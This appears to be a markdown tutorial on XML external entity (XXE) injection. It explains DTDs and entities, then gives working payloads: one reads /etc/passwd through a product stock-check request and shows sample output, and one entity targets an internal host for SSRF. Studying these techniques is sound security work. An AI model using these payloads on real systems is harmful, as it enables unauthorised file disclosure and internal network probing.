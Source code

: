 # XXE (XML external entity) injection

XXE (XML External Entity) is a vulnerability that occurs when an attacker can manipulate or inject malicious XML content into an application, leading to the potential disclosure of sensitive information or denial of service. This typically happens when the application processes XML input from untrusted sources without proper validation, allowing attackers to exploit the XML parsing functionality to their advantage.

### Table of content 

- [XML](#xml)
    - [Document type definition](#document-type-definition)
    - [XML entities](#xml-entities)
- **Exploit**
    - [Retrieve files](#retrieve-files)
    - [Exploiting XXE to perform SSRF attacks](#exploiting-xxe-to-perform-ssrf-attacks)
## XML

XML (Extensible Markup Language) is a versatile and structured markup language used for storing, transporting, and exchanging data. It's known for its human-readable format and plays a critical role in various web technologies and data storage solutions. Its popularity has now declined in favor of the JSON format.

### Document type definition

A Document Type Definition (DTD) in XML is a declaration that defines the structure and the legal elements and attributes of an XML document. It provides a set of rules for validating the structure and content of the XML document, ensuring that it conforms to a specific format or schema.

### XML entities

XML entities are placeholders used within an XML document to represent and reference data, enabling the reuse and organization of content. They are commonly employed to manage and structure data effectively in XML documents.

#### Default entities

Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

#### Custom entities

```html
<!DOCTYPE bookInfo [
  <!ENTITY bookTitle "Harry Potter and the Philosopher's Stone">
]>
<book>
  <title>&bookTitle;</title>
  <author>J.K. Rowling</author>
</book>
```

#### External entities

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared.

The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:

```html
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

The URL can use the file:// protocol, and so external entities can be loaded from file. For example:

```html
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

## Exploit

## Retrieve files

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the /etc/passwd file by submitting the following XXE payload:

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity &xxe; whose value is the contents of the /etc/passwd file and uses the entity within the productId value. This causes the application's response to include the contents of the file:

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

## Exploiting XXE to perform SSRF attacks

To exploit an XXE vulnerability to perform an SSRF attack, you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value. If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system.

```html
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

---

[**:arrow_right_hook: Back home**](/README.md)
